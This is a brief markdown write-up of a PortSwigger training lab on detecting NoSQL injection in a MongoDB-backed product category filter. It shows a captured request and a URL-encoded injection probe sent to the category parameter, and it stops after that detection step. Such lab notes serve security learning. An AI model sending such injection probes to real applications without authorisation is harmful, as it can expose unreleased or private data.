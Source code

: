 ```yaml
---
title: Detecting NoSQL injection
description: PortSwigger NoSQli Lab
---
```

https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection

The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.

## Exploit

Product category request
```http
GET /filter?category=Corporate+gifts HTTP/2
Host: 0a40001604766a14811e762e003d00ca.web-security-academy.net
Cookie: session=YHafF9Gt36VFuHgvai9iJYl9QnSYyGjo
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a40001604766a14811e762e003d00ca.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Testing for NoSQL injection
```http
GET /filter?category=%27%22%60%7b%20%3b%24%46%6f%6f%7d%20%24%46%6f%6f%20%5c%78%59%5a HTTP/2
```

![](../../../../public/images/PS_NoSQL_lab_20250607%20_171300.png)